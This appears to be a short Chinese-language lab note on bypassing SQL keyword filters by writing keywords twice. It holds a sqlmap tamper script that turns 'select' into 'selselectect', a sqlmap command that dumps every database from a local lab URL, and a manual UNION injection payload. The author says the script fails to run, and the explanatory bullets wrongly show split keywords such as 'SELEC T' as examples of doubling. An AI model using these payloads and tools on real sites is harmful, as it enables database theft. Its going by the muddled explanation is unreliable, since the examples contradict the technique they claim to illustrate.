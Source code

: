 


# 双写关键字绕过

#### shadowwolf大神的脚本：

把这个文件拷贝到sqlmap的tamper目录下重名名为doublewords.py

```
#!/usr/bin/env python
'''
sqlmap 双写绕过
by:shadowwolf
'''
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
 
__priority__ = PRIORITY.LOW
 
def dependencies():
    pass
 
def tamper(payload, **kwargs):
    payload= payload.replace('select' , 'selselectect')
    retVal=payload
    return retVal

```

？？？？？？？无法运行，你是鸡毛大神啊

```
python sqlmap.py -u "http://192.168.126.138/sqli/09.php?id=1" --dump-all --tamper=doublewords
```

双写关键字绕过的思路是通过将 SQL 关键字写成两次，使其能够通过防火墙的过滤机制。例如：

- 将 `SELECT` 转换为 `SELEC T`（分开写）
- 将 `UNION` 转换为 `UN ION`（分开写）

手动注入，双写绕过

```
?id=-1 union seselectlect 1,2,database()
```
